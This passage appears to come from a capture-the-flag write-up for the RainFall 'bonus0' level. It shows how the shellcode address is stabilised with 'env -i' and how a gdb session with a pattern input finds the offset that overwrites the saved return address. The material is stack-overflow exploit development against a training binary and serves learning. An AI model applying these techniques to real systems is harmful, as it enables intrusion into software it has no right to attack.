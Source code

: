 The critical insight was using `env -i` to create a clean environment, making the address consistent:

```bash
env -i SHELLCODE=$SHELLCODE /tmp/get_shellcode_addr
SHELLCODE address: 0xbfffffa8
```

### Challenge 4: Finding the Correct Offset and Minimum Input Size

To precisely determine which bytes in our input overwrite the return address, we created a test input with a recognizable pattern:

```bash
bonus0@RainFall:~$ python -c "print 'A'*4095 + '\n' + 'BCDEFGHIJKLMNOPQRSTU'" > /tmp/find_offset
bonus0@RainFall:~$ gdb ./bonus0

(gdb) break *main+39 # Set a breakpoint at the end of main, just before the return
Breakpoint 1 at 0x80485cb

(gdb) run < /tmp/find_offset
Starting program: /home/user/bonus0/bonus0 < /tmp/find_offset
 -
 -
AAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOPQRSTU��� BCDEFGHIJKLMNOPQRSTU���

Breakpoint 1, 0x080485cb in main ()
(gdb) x/64wx $esp-100
0xbffff5a8:     0x00000001      0x0804835d      0xb7fd13e4      0x41410000
0xbffff5b8:     0x41414141      0x41414141      0x41414141      0x41414141 # The 41s correspond to 'A'
0xbffff5c8:     0x43424141      0x47464544      0x4b4a4948      0x4f4e4d4c # 42 to 4f correspond to 'BCDEFGHIJKLMNOPQRSTU'
0xbffff5d8:     0x53525150      0x0ff45554      0x4220b7fd      0x46454443
0xbffff5e8:     0x4a494847      0x4e4d4c4b      0x5251504f      0xf4555453
0xbffff5f8:     0x00b7fd0f      0xb7fdc858      0x00000000      0xbffff61c
```

And checking which part of our input overwrites the saved EIP:

```
(gdb) info frame
Stack level 0, frame at 0xbffff5f0:
 eip = 0x80485cb in main; saved eip 0x4e4d4c4b
 Saved registers:
  eip at 0xbffff5ec
```

This reveals that the saved return address (`0xbffff5ec`) contains `0x4e4d4c4b`, which corresponds to the characters 'KLMN' in our second input. Looking at our pattern:

```
Second input: 'BCDEFGHIJKLMNOPQRSTU'
                        ^^^^
                        |
                        +-- These characters (KLMN) overwrite EIP
```
